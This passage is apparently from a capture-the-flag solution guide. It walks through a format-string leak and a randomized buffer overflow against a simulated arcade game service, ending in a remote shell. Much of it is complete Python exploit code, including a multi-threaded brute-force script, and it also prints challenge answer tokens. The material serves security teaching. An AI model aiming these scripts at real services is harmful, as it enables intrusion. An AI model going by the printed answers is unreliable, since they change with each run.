```bash
scp /home/user/forever_winter.png user@<kali-ip>:/home/user/ 
```

Finally, we can open the transferred image in our GUI to read the token. 



In this instance, the value of token3 and answer to Question 3 is ``c21b44a0``.

## Question 4 

This section explains the underlying concepts behind how to solve this complex question, where the vulnerability exists and provides a full solution that can be used against the application (video game).

**1. Discovery**  

First, we must discover the arcade cabinet. This can be found by using the tool `nmap` against your `own` network (10.5.5.0/24):

`nmap -sTV -vv 10.5.5.0/24 --oA arcade-discovery`

This command will run nmap check for all the open TCP ports available on all alive hosts in the network (pingable). In this case, we find that `10.5.5.100` is available and the hostname of this asset happens to be `arcade`:

  

**2.1 Format String Vulnerabilities**  

A format string vulnerability occurs when user-supplied input is passed as the format string argument to functions like printf(), fprintf(), etc., without proper validation. In C, these functions expect a format string (e.g., "Hello %s") that contains conversion specifiers (like %s, %p, %d) to format output. When an attacker controls the format string, they can use specifiers such as %p to leak data from the stack.

```c
fprintf(stdout, user_input);
```

In our Python based simulation, we mimic this behavior by using a function called simulate_format_string(fmt). It takes the user input and replaces every occurrence of %p with a dynamically generated “memory address” (using Python’s id() for our functions).

**Under the hood**

Listed below is the code tied to the format string vulnerability: 

```python
def simulate_format_string(fmt):
    """
    Simulate a vulnerable printf by replacing every '%p' in the user-provided
    format string with one of our dynamically generated addresses.
    """
    addresses = get_real_addresses()  # Randomized list of function addresses.
    result = ""
    pos = 0
    ptr_index = 0
    while pos < len(fmt):
        if fmt[pos:pos+2] == "%p":
            if ptr_index < len(addresses):
                result += hex(addresses[ptr_index])
                ptr_index += 1
            else:
                result += "0x0"
            pos += 2
        else:
            result += fmt[pos]
            pos += 1
    return result
```

Effectively, causing the application to "tell" you the location of important addresses can be quite useful to exploit developers as will be seen in the next sections.

**2.2 Buffer Overflow Vulnerabilities**  

A buffer overflow occurs when more data is written to a buffer than it can hold. This extra data can overwrite adjacent memory (e.g., function pointers, return addresses), potentially allowing an attacker to divert control flow.

The vulnerable application reads a user-supplied input into a fixed-size buffer (simulated in Python) and then overwrites a function pointer (named mole_escape).

The challenge randomizes:
* Buffer size: A value between 100 and 150 bytes.
* Offset: The pointer is stored at a random offset (buffer size + 4 to buffer size + 20).
* The attacker must guess the correct padding length and supply the correct 8-byte pointer (the address of secret_mole_escape).

Additionally, as the challenger completes more "guessing" cycles, the previous addresses found become `randomized` meaning the address that the developer is trying to `control` will be moved elsewhere. It will be up to the developer to create code that attempts all possible addresses per cycle.

With this in mind, let's examine the actual buffer overflow check:

```python
# --- Stage 3: Randomized Buffer Overflow ---
rand_buffer_size = random.randint(100, 150)
pointer_offset = rand_buffer_size + random.randint(4, 20)
overflow_length = pointer_offset + 8  # Total bytes read includes the pointer overwrite.

prompt2 = "\n⚡️ Select a power-up (Speed/Strength): \n"
client_socket.sendall(prompt2.encode())
overflow_input = client_socket.recv(overflow_length)

# --- Stage 4: Check the Overflow Payload ---
if len(overflow_input) >= pointer_offset + 8: # Lamens: If the point of control is found, rewrite its location and use the struct package to send little endian packets to start a chain.
    new_ptr = overflow_input[pointer_offset:pointer_offset+8]
    overwritten_ptr = struct.unpack("<Q", new_ptr)[0]
    # Only if the attacker overwrites the pointer with the exact address
    # of secret_mole_escape, update it with 80% probability.
    # This setting can be used to test the application
    # if overwritten_ptr == id(secret_mole_escape) and random.random() < 0.8: 
    if overwritten_ptr == id(secret_mole_escape): # Hard mode
        mole_escape = secret_mole_escape
```

Based on this code, the challenger (exploit developer in this case) must account for the right buffer size, the offset of the simulated pointer, and what their payload will look like at the end of finding the vulnerable "memory space".

#### Exploit development

With knowledge of buffer overflows and format string vulnerabilities in mind, we can now experiment with the application. It has two overt inputs:
* Mole to Hit [1-9]
* PowerUp: Speed/Strength

**1. Discovery**  

First, use `nc` or netcat to reach the game which located on port `tcp/9999`:

`nc -vvn 10.5.5.100 9999`

The `-vvn` enables extended verbosity while turning off hostname resolutions to speed up connections.

**2. Connections**  

Once connected, enter values into the first field. The answer will yield a reflection of your answer and completing a round often yields taunting if you're unlucky:



To send and receive data, we need a `handler`; this code cave can help:

```python
def recv_until(s, delim, timeout=2):
    s.settimeout(timeout)
    data = b""
    try:
        while delim not in data:
            chunk = s.recv(1)
            if not chunk:
                break
            data += chunk
    except Exception:
        pass
    finally:
        s.settimeout(None)
    return data
```

Effectively, this will receive data and as long as we keep receiving data, it will be parsed otherwise a timeout is assumed at a given interval or terminating condition is reached.

**3. Input fields and Format String Vulnerability Analysis**  

When given a user input field, exploit developers will often look towards the presence of certain types of vulnerabilities; one being format string vulnerabilities.

For further learning, we can take a look at the following reference: 
https://web.ecs.syr.edu/~wedu/Teaching/cis643/LectureNotes_New/Format_String.pdf

To execute the string format vulnerability any payload that utilizes a series of (what would be) substitution variables (%p). Here's a sample payload:

```bash
%p %p %p %p %p %p %p %p
```

In this instance, sending this payload to the video game's Mole To Hit parameter yields several memory addresses. These addresses are potential pointers to functions that control the flow of the application:



Next, we must find a way to store the "leaked addresses"; these two functions will both leak and store them for future use:

```python
def leak_addresses(s):
    """
    Read until the prompt, send a format string payload, and return the leaked string.
    """
    # Wait for the initial prompt (e.g. "Select a mole hole (1-9):")
    init_data = recv_until(s, b"Select a mole hole (1-9):")
    print("[*] Received initial data:")
    print(init_data.decode(errors="ignore"))
    
    # Send our format string payload.
    leak_payload = "LEAK:%p:%p:%p:%p:%p:%p:%p:%p\n"
    s.sendall(leak_payload.encode())
    
    # Wait for the leaked addresses.
    leak_data = s.recv(1024).decode(errors="ignore")
    print("[*] Leaked data:")
    print(leak_data)
    return leak_data

def parse_leaks(leak_str):
    """
    Parse leaked addresses from the leak string.
    """
    # This regex finds all hexadecimal addresses.
    addresses = re.findall(r"0x[0-9a-fA-F]+", leak_str)
    # Convert to integers.
    addresses = [int(addr, 16) for addr in addresses if addr != "0x0"]
    return addresses
```

**4. Crafting the Overflow Payload**  

The server randomizes both the size of a vulnerable buffer (between 100 and 150 bytes) and the offset where a critical function pointer is stored (the offset is randomized to be between buffer + 4 and buffer + 20). The server then reads exactly that many bytes from the client, which gives an attacker the chance to overflow the buffer.

Our payload should have the following components:

The payload is composed of:
* A padding of candidate_offset bytes (e.g., all "A"s).
* An 8-byte overwrite containing the candidate pointer (packed using struct.pack("<Q", candidate_ptr)).
* Padding (if necessary) to match the exact number of bytes expected by the server.

The goal is to overwrite the stored function pointer with the leaked address of `secret_mole_escape` so we can exit the game and take over execution (e.g. leading to use of a user shell).

**To account for this**, we need to incorporate a way to `wait` for the next prompt (“Select a power-up (Speed/Strength):”) and send our crafted payload.

Our overflow can be controlled using the following code:

```python
def build_overflow_payload(offset, candidate_ptr):
    """
    Build the payload with:
    - offset bytes of filler
    - followed by the candidate pointer (8 bytes, little-endian)
    """
    padding = b"A" * offset
    payload_ptr = struct.pack("<Q", candidate_ptr)
    payload = padding + payload_ptr
    # Ensure payload is exactly (offset + 8) bytes.
    payload = payload.ljust(offset + 8, b"B")
    return payload
```

**5. Conditional Function Pointer Hijack**  

Once the overflow payload is received, the server extracts the 8 bytes at the calculated offset. If that extracted value equals the address of secret_mole_escape (as given by id(secret_mole_escape)) and—if testing—we introduce an 80% success probability, then the function pointer (initially set to safe_escape) is overwritten to point to `secret_mole_escape`.

**6. Spawning the Shell**  

(Under the hood) The function secret_mole_escape duplicates the client socket’s file descriptor to standard I/O (or input and output) and then calls os.execv("/bin/bash", ["/bin/bash"]) to open a shell. This should provide an interactive shell over the network connection.

Lucky for us, an interactive shell can be created in python using either the pty package or the following code cave:

```python
def interactive_shell(s):
    print("[*] Interactive shell. Type commands, and press Enter.")
    try:
        while True:
            cmd = input("$ ")
            if cmd.strip() == "":
                continue
            s.sendall((cmd + "\n").encode())
            time.sleep(0.3)
            data = s.recv(4096).decode(errors="ignore")
            print(data, end="")
    except KeyboardInterrupt:
        print("\n[!] Exiting interactive shell.")
        s.close()
```

**7. Final Exploit**  

In this final section, we can see a fully formed version of this script:

```python
#!/usr/bin/env python3
import socket
import struct
import re
import random
import time

# Configuration
HOST = "127.0.0.1"  # Change this to your target's IP.
PORT = 9999

def recv_until(s, delim, timeout=2):
    s.settimeout(timeout)
    data = b""
    try:
        while delim not in data:
            chunk = s.recv(1)
            if not chunk:
                break
            data += chunk
    except Exception:
        pass
    finally:
        s.settimeout(None)
    return data

def leak_addresses(s):
    """
    Read until the prompt, send a format string payload, and return the leaked string.
    """
    # Wait for the initial prompt (e.g. "Select a mole hole (1-9):")
    init_data = recv_until(s, b"Select a mole hole (1-9):")
    print("[*] Received initial data:")
    print(init_data.decode(errors="ignore"))
    
    # Send our format string payload.
    leak_payload = "LEAK:%p:%p:%p:%p:%p:%p:%p:%p\n"
    s.sendall(leak_payload.encode())
    
    # Wait for the leaked addresses.
    leak_data = s.recv(1024).decode(errors="ignore")
    print("[*] Leaked data:")
    print(leak_data)
    return leak_data

def parse_leaks(leak_str):
    """
    Parse leaked addresses from the leak string.
    """
    # This regex finds all hexadecimal addresses.
    addresses = re.findall(r"0x[0-9a-fA-F]+", leak_str)
    # Convert to integers.
    addresses = [int(addr, 16) for addr in addresses if addr != "0x0"]
    return addresses

def build_overflow_payload(offset, candidate_ptr):
    """
    Build the payload with:
    - offset bytes of filler
    - followed by the candidate pointer (8 bytes, little-endian)
    """
    padding = b"A" * offset
    payload_ptr = struct.pack("<Q", candidate_ptr)
    payload = padding + payload_ptr
    # Ensure payload is exactly (offset + 8) bytes.
    payload = payload.ljust(offset + 8, b"B")
    return payload

def interactive_shell(s):
    print("[*] Interactive shell. Type commands, and press Enter.")
    try:
        while True:
            cmd = input("$ ")
            if cmd.strip() == "":
                continue
            s.sendall((cmd + "\n").encode())
            time.sleep(0.3)
            data = s.recv(4096).decode(errors="ignore")
            print(data, end="")
    except KeyboardInterrupt:
        print("\n[!] Exiting interactive shell.")
        s.close()

def main():
    # Connect to the target
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((HOST, PORT))
    
    # 1. Leak addresses.
    leak_str = leak_addresses(s)
    candidates = parse_leaks(leak_str)
    if not candidates:
        print("[-] No addresses leaked. Exiting.")
        s.close()
        return
    
    print("[*] Candidate leaked addresses:")
    for addr in candidates:
        print(hex(addr))
    
    # For testing, choose one candidate pointer.
    candidate_ptr = random.choice(candidates)
    print("[*] Using candidate pointer:", hex(candidate_ptr))
    
    # 2. Choose an offset.
    # Because the vulnerable buffer size and offset are randomized, choose an offset from a typical range.
    candidate_offset = random.randint(104, 170)
    print("[*] Using candidate offset:", candidate_offset)
    
    # 3. Wait for the next prompt.
    prompt = recv_until(s, b"Select a power-up (Speed/Strength):")
    print("[*] Received second prompt:")
    print(prompt.decode(errors="ignore"))
    
    # 4. Build and send the overflow payload.
    payload = build_overflow_payload(candidate_offset, candidate_ptr)
    s.sendall(payload)
    print("[*] Overflow payload sent.")
    
    # 5. Give the server a moment to process and spawn a shell.
    time.sleep(0.5)
    
    # 6. Verify if the shell is spawned by sending a test command.
    s.sendall(b"echo HAX\n")
    time.sleep(0.5)
    resp = s.recv(4096).decode(errors="ignore")
    if "HAX" in resp:
        print("[+] Shell appears to be spawned!")
        interactive_shell(s)
    else:
        print("[-] No shell detected. The overflow may have failed.")
        s.close()

if __name__ == "__main__":
    main()
```

An advanced version of this script (which we'll use to demonstrate a successful condition) can be found here:

```python
#!/usr/bin/env python3
import socket
import struct
import time
import re
import random
import sys
import threading

HOST = "127.0.0.1"  # Change as needed.
PORT = 9999

# Global event to signal that a shell was obtained.
shell_found = threading.Event()
# Lock to protect the global socket variable.
socket_lock = threading.Lock()
successful_socket = None

def recv_until(s, delim, timeout=2):
    """Receive data until a given delimiter is encountered."""
    s.settimeout(timeout)
    data = b""
    try:
        while delim not in data:
            chunk = s.recv(1)
            if not chunk:
                break
            data += chunk
    except Exception:
        pass
    finally:
        s.settimeout(None)
    return data

def parse_leaked_addresses(leak_str):
    """
    Parse the leaked output from the format string.
    Expected format is something like:
      LEAK:0xaddr1:0xaddr2:...
    Returns a list of integer addresses (ignoring any "0x0").
    """
    addrs = re.findall(r"0x[0-9a-fA-F]+", leak_str)
    return [int(addr, 16) for addr in addrs if addr != "0x0"]

def attempt_exploit():
    global successful_socket
    while not shell_found.is_set():
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((HOST, PORT))
        except Exception:
            continue

        try:
            # Stage 1: Wait for initial prompt.
            init_data = recv_until(s, b"Select a mole hole (1-9):")
            # Send format string payload.
            fmt_payload = "LEAK:%p:%p:%p:%p:%p:%p:%p:%p\n"
            s.sendall(fmt_payload.encode())
            leak_data = s.recv(1024).decode(errors="ignore")
        except Exception:
            s.close()
            continue

        try:
            candidates = parse_leaked_addresses(leak_data)
            if not candidates:
                s.close()
                continue

            # Randomly choose a candidate pointer from the leak.
            candidate_ptr = random.choice(candidates)
            # Randomly choose an offset between 104 and 170.
            candidate_offset = random.randint(104, 170)

            # Stage 2: Wait for power-up prompt.
            prompt = recv_until(s, b"Select a power-up (Speed/Strength):")
            # Build the overflow payload:
            #  - Filler of candidate_offset bytes.
            #  - Followed by 8 bytes of candidate_ptr.
            padding = b"A" * candidate_offset
            payload_ptr = struct.pack("<Q", candidate_ptr)
            payload = padding + payload_ptr
            payload = payload.ljust(candidate_offset + 8, b"B")
            s.sendall(payload)

            # Stage 3: Verify if a shell is spawned.
            time.sleep(0.5)
            s.sendall(b"echo HAX\n")
            time.sleep(0.5)
            resp = s.recv(4096).decode(errors="ignore")
            if "HAX" in resp:
                with socket_lock:
                    if not shell_found.is_set():
                        successful_socket = s
                        shell_found.set()
                        return
            else:
                s.close()
        except Exception:
            s.close()
            continue

def interactive_shell(s):
    print("[+] Shell obtained! Entering interactive mode. (Press Ctrl+C to exit.)")

    # Set a short timeout for recv() to prevent indefinite blocking
    s.settimeout(1)  # 1 second timeout for receiving data

    try:
        while True:
            cmd = input("$ ").strip()
            if not cmd:
                continue  # Ignore empty input

            s.sendall((cmd + "\n").encode())  
            time.sleep(0.3)  # Allow command execution
            
            try:
                response = s.recv(4096).decode(errors="ignore")
                if not response.strip():  # Handle empty response (e.g., `cd`)
                    response = "[No Output]\n"
            except socket.timeout:  # If no data is received within timeout
                response = "[No Output]\n"
            except Exception as e:
                response = f"[Error: {e}]\n"

            print(response, end="")

    except KeyboardInterrupt:
        print("\n[!] Exiting interactive shell.")
        s.close()

def main():
    num_threads = 20  # Number of concurrent threads.
    threads = []

    print("[*] Starting multi-threaded brute force attempts...")
    for _ in range(num_threads):
        t = threading.Thread(target=attempt_exploit)
        t.daemon = True
        t.start()
        threads.append(t)

    # Wait until one thread reports success.
    while not shell_found.is_set():
        time.sleep(0.5)

    print("[*] Exploit succeeded! Launching interactive shell.")
    interactive_shell(successful_socket)

if __name__ == "__main__":
    main()
```

This version is multi threaded and tracks attempts as well as other helpful data.

**8. Putting it all together**  

On the server side, the defenders would see:


The attacker sees: 


For all intents of purposes, we've squelched the verbose output (in this guide), to give you the expected answer.

Upon success (exploiting all three vulnerabilities), the challenger will be presented the equivalent of a Bind Shell (or localized shell). The token in question can be found by navigating to the user `player`'s Desktop  (on the asset named `arcade`), and opening the file titled `GameOver.txt`.


In this case, the answer to question 4 would be `6790b662`.

Please note: This is an infinity challenge. As a result, answers change every time this challenge is run.

Happy Hunting!